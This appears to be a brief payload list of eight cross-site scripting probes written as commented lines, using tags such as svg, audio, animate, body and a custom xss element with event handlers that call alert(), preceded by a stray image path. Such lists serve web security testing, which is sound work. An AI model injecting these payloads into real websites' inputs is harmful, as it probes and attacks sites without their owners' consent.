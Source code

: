 # <h1><img src=x ><h1>
# <svg/onload=alert()>
# <audio oncanplay=alert(1)><source src="valid""audio.wav" type="audio/wav"></audio>
# <audio controls onwaiting=alert(1)><source src=x type=x></audio>
# <svg><animate onend=alert(1) attributeName=x dur=1s>
# <audio src/onerror=alert(1)>
# <body onload=alert(1)>
# <xss onpointerover=alert(1) style=display:block>XSS</xss>









